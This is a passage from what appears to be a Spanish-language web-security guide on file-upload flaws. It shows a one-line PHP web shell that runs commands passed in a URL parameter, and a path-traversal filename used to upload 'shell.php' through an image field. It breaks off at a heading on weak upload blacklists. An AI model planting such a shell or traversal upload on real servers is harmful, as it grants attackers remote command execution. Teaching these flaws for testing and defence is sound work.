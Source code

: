 ```http
GET /static/exploit.php?command=id HTTP/1.1
    Host: normal-website.com


    HTTP/1.1 200 OK
    Content-Type: text/plain
    Content-Length: 39

    <?php echo system($_GET['command']); ?>
```

#### EJEMPLO PRÁCTICO

<figure><img src="../.gitbook/assets/imagen (92).png" alt=""><figcaption></figcaption></figure>

_Tenemos una entrada para poder insertar una imagen._&#x20;

<figure><img src="../.gitbook/assets/imagen (100).png" alt=""><figcaption></figcaption></figure>

_Ahora la subimos haciendo este Path Traversal: `%2f%2e%2e%2fshell.php`_

<figure><img src="../.gitbook/assets/imagen (95).png" alt=""><figcaption></figcaption></figure>

## Blacklist pobre a la hora de subir archivos
